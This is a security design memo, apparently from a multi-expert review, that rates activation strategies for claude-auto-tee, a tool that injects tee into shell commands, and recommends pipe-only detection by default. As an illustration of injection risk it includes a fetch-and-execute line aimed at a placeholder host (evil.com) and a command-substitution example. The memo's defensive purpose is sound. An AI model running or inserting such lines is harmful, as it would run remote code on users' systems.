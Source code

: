 # Opening Statement: Expert 001 - Security Analysis

## Executive Summary

From a security perspective, the activation strategy for claude-auto-tee presents significant concerns around command injection, privilege escalation, and audit trail integrity. The chosen strategy must balance functionality with robust security controls.

## Security Analysis by Strategy

### Pipe-Only Detection (Lowest Risk)
**Security Rating: ⭐⭐⭐⭐**

- **Minimal attack surface**: Only activates when explicit pipes are present
- **Predictable behavior**: Clear trigger conditions reduce unexpected modifications
- **Audit clarity**: Easy to trace when and why tee injection occurred
- **Limited injection vectors**: Constrained activation reduces malicious exploitation

**Risks:**
- Users may craft pipes specifically to bypass security logging
- False sense of security if legitimate commands aren't captured

### Pattern Matching (Highest Risk)
**Security Rating: ⭐⭐**

- **Complex parsing vulnerabilities**: Regex/pattern engines are frequent attack vectors
- **Command injection amplification**: Sophisticated attackers can craft commands that exploit pattern weaknesses
- **False positive risks**: Over-aggressive matching could inject tee into security-sensitive commands
- **Maintenance burden**: Pattern rules require constant security review as new commands emerge

**Critical Concerns:**
```bash
# Potential injection scenarios
command_with_$(malicious_substitution) | grep pattern
eval "$(curl evil.com/payload)" # matches common patterns
```

### Hybrid Approach (Moderate Risk)
**Security Rating: ⭐⭐⭐**

- **Configurable attack surface**: Risk varies by configuration complexity
- **Fail-safe potential**: Can implement security-first defaults
- **Granular control**: Allows security-conscious users to restrict activation

**Key Requirements:**
- Default configuration must prioritize security over convenience
- Clear documentation of security implications for each option
- Runtime validation of activation rules

## Critical Security Requirements

### 1. Command Injection Prevention
```bash
# SECURE: Validate injection points
tee_command="tee ${VALIDATED_TEMP_FILE}"

# INSECURE: Direct substitution
tee_command="tee $user_input"
```

### 2. Temporary File Security
- **Permissions**: Files must be created with 0600 (user-only access)
- **Location**: Use secure temp directories with proper cleanup
- **Naming**: Avoid predictable filenames that enable race conditions

### 3. Audit Trail Integrity
- Log all tee injections with timestamps, original commands, and user context
- Ensure logs cannot be tampered with by the same privilege level
- Include hash verification of modified commands

### 4. Privilege Boundary Respect
- Never escalate privileges during command modification
- Respect existing security contexts (sudo, containers, chroot)
- Fail securely when unable to determine safe injection points

## Recommended Security Controls

### Authentication & Authorization
1. **User consent**: Explicit opt-in for command modification
2. **Scope limiting**: Ability to disable for sensitive directories/commands
3. **Privilege checking**: Verify user permissions before file creation

### Input Validation
1. **Command sanitization**: Strip/escape dangerous characters
2. **Path validation**: Ensure temp file paths are within allowed directories
3. **Length limits**: Prevent buffer overflow attacks via long commands

### Monitoring & Alerting
1. **Anomaly detection**: Flag unusual tee injection patterns
2. **Rate limiting**: Prevent abuse through rapid command execution
3. **Security logging**: Separate security events from functional logs

## Proposed Voting Options

Based on security analysis, I propose these options ranked by security posture:

1. **Security-First Hybrid**: Pipe-only by default, opt-in pattern matching with strict validation
2. **Conservative Pipe-Only**: Simple, secure, predictable activation
3. **Configurable Hybrid**: Full flexibility with comprehensive security controls
4. **Restricted Pattern Matching**: Limited pattern set with extensive sandboxing

## Conclusion

The security implications favor a **conservative approach with opt-in complexity**. While pattern matching offers convenience, it significantly expands the attack surface. A hybrid approach with secure defaults provides the best balance of security and functionality.

**Recommendation**: Start with pipe-only detection, then allow users to gradually enable pattern matching with clear security warnings and granular controls.

---
*Expert 001 - Security Domain*